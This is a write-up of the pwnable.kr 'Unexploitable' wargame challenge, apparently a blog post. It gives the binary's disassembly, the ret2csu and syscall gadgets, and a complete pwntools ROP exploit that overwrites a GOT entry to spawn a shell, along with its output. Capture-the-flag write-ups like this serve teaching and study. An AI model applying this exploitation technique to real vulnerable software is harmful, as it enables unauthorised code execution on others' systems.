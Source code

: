 ```yaml
---
layout: post
title: pwnable.kr - Unexploitable
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
  - pwnable.kr
  - pwnable
published: true
---
```


The challenge named "Unexploitable" which is one of Hacker's Secret and has 500 points.

<!--more-->

## Overview
The main function has few code.
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400544 <+0>:	push   rbp
   0x0000000000400545 <+1>:	mov    rbp,rsp
   0x0000000000400548 <+4>:	sub    rsp,0x10
   0x000000000040054c <+8>:	mov    edi,0x3
   0x0000000000400551 <+13>:	mov    eax,0x0
   0x0000000000400556 <+18>:	call   0x400450 <sleep@plt>
   0x000000000040055b <+23>:	lea    rax,[rbp-0x10]
   0x000000000040055f <+27>:	mov    edx,0x50f
   0x0000000000400564 <+32>:	mov    rsi,rax
   0x0000000000400567 <+35>:	mov    edi,0x0
   0x000000000040056c <+40>:	mov    eax,0x0
   0x0000000000400571 <+45>:	call   0x400430 <read@plt>
   0x0000000000400576 <+50>:	leave  
   0x0000000000400577 <+51>:	ret    
End of assembler dump.
```
From above, we know that we can use two functions (sleep, read) and overflow the buffer. 

## Payload Building
I need the ability that writes and reads arbitrary memory or calls arbitrary code but all we have is just overflowable read functions in main. So, I looked through main function and found syscall gadget which can be used for getting shell.
```
...
0x0000000000400560 (main+28) : syscall
...
```
And also I found some gadgets that looks useful from [ropshell](http://ropshell.com/).

csu_set:
```
0x4005e6 <__libc_csu_init+102>: mov rbx,QWORD PTR [rsp+0x8]
0x4005eb <__libc_csu_init+107>: mov rbp,QWORD PTR [rsp+0x10]
0x4005f0 <__libc_csu_init+112>: mov r12,QWORD PTR [rsp+0x18]
0x4005f5 <__libc_csu_init+117>: mov r13,QWORD PTR [rsp+0x20]
0x4005fa <__libc_csu_init+122>: mov r14,QWORD PTR [rsp+0x28]
0x4005ff <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
0x400604 <__libc_csu_init+132>: add rsp,0x38
0x400608 <__libc_csu_init+136>: ret
```
csu_call:
```
0x4005d0 <__libc_csu_init+80>: mov rdx,r15
0x4005d3 <__libc_csu_init+83>: mov rsi,r14
0x4005d6 <__libc_csu_init+86>: mov edi,r13d
0x4005d9 <__libc_csu_init+89>: call QWORD PTR [r12+rbx*8]
```
We can call arbitrary function with arbitrary arguments (max: 3) using this gadgets now. But for getting shell with syscall, we have to satisfy some condition. See [Linux System Call Table For X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).
![]({{ site.baseurl }}/images/KRater/2020-08-18-pwnable-kr-Unexploitable/pic01.png)

The pointer of filename - rdi - will be .bss section which has `/bin/sh` string. And rax, which has to be 59, will be set by the return value of read function.

## Exploit

Full exploit code:
```python
from pwn import *

csu_set = 0x4005e6
csu_call = 0x4005d0
main_addr = 0x400544
syscall_addr = 0x400560
read_got = 0x601000
sleep_got = 0x601010

bss = 0x601000
binsh = bss + 0x28 # 0x601028
rax_dummy = bss + 0x38 # 0x601038

def chain(func, arg1, arg2, arg3):
    payload = p64(0)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)

    payload += p64(csu_call)

    return payload

r = process("/home/unexploitable/unexploitable")
p = log.progress("Getting shell...")
p.status("Doing exploit... (1/2)")

sleep (3)

payload = "A"*24 + p64(csu_set) + chain(bss, 0, binsh, 0x8) + p64(main_addr)*10
r.send(payload)

sleep (0.5)

r.send("/bin/sh\x00")

sleep (3)

payload = "B"*24 + p64(csu_set) + chain(read_got, 0, sleep_got, 8) + chain(read_got, 0, rax_dummy, 59) + chain(sleep_got, binsh, 0, 0)
r.send(payload)

p.status ("Doing exploit... (2/2)")

sleep (0.5)

r.send(p64(syscall_addr))

sleep (0.5)

r.send("C"*59)

p.success("done ;)")

r.interactive()
```

```bash
unexploitable@pwnable:blahblah$ python attack.py 
[+] Starting local process '/home/unexploitable/unexploitable': pid 426386
[+] Getting shell...: done ;)
[*] Switching to interactive mode
$ id
uid=1074(unexploitable) gid=1074(unexploitable) egid=1075(unexploitable_pwn) groups=1075(unexploitable_pwn),1074(unexploitable)
```